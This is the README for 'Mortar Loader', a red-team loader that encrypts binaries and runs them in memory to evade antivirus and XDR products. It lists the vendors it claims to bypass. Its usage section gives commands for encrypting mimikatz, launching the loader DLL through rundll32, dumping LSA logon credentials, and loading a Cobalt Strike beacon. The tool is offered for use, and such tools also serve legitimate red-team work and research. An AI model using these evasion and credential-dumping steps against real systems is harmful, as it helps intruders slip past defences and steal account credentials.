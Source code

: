 # Mortar Loader 

red teaming evasion technique to defeat and divert detection and prevention of security products.Mortar Loader performs encryption and decryption of selected binary inside the memory streams and execute it directly with out writing any malicious indicator into the hard-drive. 
Mortar is able to bypass modern anti-virus products and advanced XDR solutions and it has been tested and confirmed bypass for the following: 

* Kaspersky :heavy_check_mark:
* ESET :heavy_check_mark:
* Malewarebytes :heavy_check_mark:
* Mcafee :heavy_check_mark:
* Windows defender :exclamation:
* Cylance:heavy_check_mark:
* TrendMicro :heavy_check_mark:
* Bitdefender :heavy_check_mark:
* Norton Symantec :heavy_check_mark:
* Sophos :heavy_check_mark:

detailed research and techniques : https://0xsp.com/security%20research%20&%20development%20(SRD)/defeat-the-castle-bypass-av-advanced-xdr-solutions

Mortar Loader v2 features : https://0xsp.com/offensive/mortar-loader-v2/

CrestCon Asia 2021 talk : https://www.youtube.com/watch?v=H7EMBz7GLMk

# Usage 

## Encryptor 

```
root@kali>./encryptor -f mimikatz.exe -o bin.enc 

```

## Loader (DLL)

directly execute the agressor.dll using rundll32 or any DLL injection technique you prefer 

```
rundll32.exe agressor.dll,start
```

for shellcode running 
```
rundll32 agressor.dll,sh
```
## Loader (EXE) ( HAS BEEN REMOVED IN V2)
the executable version has more options you can use, as you able to pass commands for the loaded binary

```
##Mimikatz dump LSA 
deliver.exe -d -c sekurlsa::logonpasswords -f mimikatz.enc 

## Cobalt strike beacon 
deliver.exe -d -f cobalt.enc 

```
# Compiling the Loader (windows only)
the project has been coded using FPC(Free Pascal), the compiling procedures are straightforward by downloading and installing Lazarus IDE (https://www.lazarus-ide.org/index.php?page=downloads).


# Compiling Encryptor(Linux/BSD/Arm/MacOS//windows)
either by downloading and installing Lazarus-IDE from the official site(https://www.lazarus-ide.org/index.php?page=downloads)

```
#Debian & Ubuntu 

apt install fpc 
apt install lazarus-ide 

```
# Support the research 
if you think you have benefited from this open-source project and want more updates in the future, please mind time and efforts by making a donation
https://donorbox.org/support-0xsp

# sponsor ?
- you show continues appreciation of my work
- you will get early access into private repos and get support for any raise issue






